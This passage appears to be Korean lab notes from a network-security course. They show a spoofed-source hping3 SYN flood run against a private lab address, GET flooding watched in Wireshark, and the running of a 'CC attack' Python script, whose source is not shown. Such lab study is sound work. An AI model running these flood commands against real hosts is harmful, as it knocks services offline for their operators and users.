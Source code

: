 - TCP 연결시

root@kali-04:~/Desktop# hping3 -p 80 -S --rand-source 172.16.10.20 --flood

```
HPING 172.16.10.20 (eth0 172.16.10.20): S set, 40 headers + 0 data bytes
hping in flood mode, no replies will be shown
^C
--- 172.16.10.20 hping statistic ---
119741 packets transmitted, 0 packets received, 100% packet loss
round-trip min/avg/max = 0.0/0.0/0.0 ms


```

-> UDP 가 2개이상 빠른것을 볼 수 있음 



### DDOS 



#### GET Flooding (127p)

###### 와이어샤크

Filter : http.request

하고 

###### 칼리

에서 172.16.10.20 파이어폭스로 접속 후 새로고침 엄청 누르기

-> 와이어샤크에서 동일한 패킷이 여러번 전송되는 모습 확인 가능



###### 와이어샤크

Filter : http.request.uri contains "/head.php"



#### CC Attack (128p)

 root@kali-04:~/Desktop# vim ccatack.py

```
HOST IP 를 172.16.10.20 으로 변경
conn =httplib.HTTPConnection () 여기 안에 IP 172.16.10.20 으로 변경
```

root@kali-04:~/Desktop# python ccatack.py

```
^CTraceback (most recent call last):
  File "ccatack.py", line 16, in <module>
    res = conn.getresponse()
  File "/usr/lib/python2.7/httplib.py", line 1161, in getresponse
    response.begin()
  File "/usr/lib/python2.7/httplib.py", line 448, in begin
    version, status, reason = self._read_status()
  File "/usr/lib/python2.7/httplib.py", line 404, in _read_status
    line = self.fp.readline(_MAXLINE + 1)
  File "/usr/lib/python2.7/socket.py", line 480, in readline
    data = self._sock.recv(self._rbufsize)
KeyboardInterrupt
```
